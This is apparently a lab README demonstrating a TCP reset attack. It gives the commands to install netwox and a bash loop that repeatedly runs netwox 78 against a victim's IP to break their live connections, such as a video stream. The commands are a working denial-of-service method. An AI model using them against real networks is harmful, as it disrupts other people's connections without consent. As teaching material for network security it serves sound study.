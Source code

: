 ## TCP Reset Attack Demo

Steps:

1. Attacker: Install netwox on the attacker machine:

```console
$ sudo apt install netwox
```

2. Attacker: Save these lines in a bash script named reset_attack.sh:

```console
for i in {1..10000}; do
  sudo netwox 78 -f "src host 10.0.2.4"
done
```

**Note**: change 10.0.2.4 to the victim client's IP address.

3. Victim: watch a video on Youtube.

4. Attacker: launch attack:

```console
$ sudo bash reset_attack.sh
```

Now the victim should feel the network connection struggle and very likely won't be able to continue watching.
